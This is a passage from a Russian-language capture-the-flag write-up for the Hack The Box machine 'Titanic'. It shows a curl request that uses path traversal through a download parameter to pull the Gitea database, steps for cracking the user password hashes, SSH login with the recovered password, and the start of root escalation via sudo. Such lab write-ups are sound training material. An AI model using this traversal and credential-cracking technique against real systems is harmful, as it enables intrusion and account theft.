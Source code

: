


Скачиваем db 
```
curl -o gitea.db "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db"
```

В таблице все есть, чтобы получить пароли из хешей, но тут могут начаться небольшие сложности с преобразованием в формат hashcat, так что вот простое решение ...)  

Скачайте таблицу user в json:
![[titanic4.png]]

Дальше вы можете воспользоваться моим скриптом для преобразования в формат hashcat (там инструкция в readme, сами разберетесь)
вот [ссылка на репозиторий](https://github.com/o0wo0o/gitea_user_table_to_hashes.py.git)

Пароль от ssh такой же (25282528):

```console
ssh developer@10.10.11.55 
```

И в поле password: 25282528

# Пост эксплуатация, root flag

Что же дальше? Ну, в моем случае кто-то сломал машину -\_-
```console

developer@titanic:/tmp$ sudo -l
Matching Defaults entries for developer on titanic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User developer may run the following commands on titanic:
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
```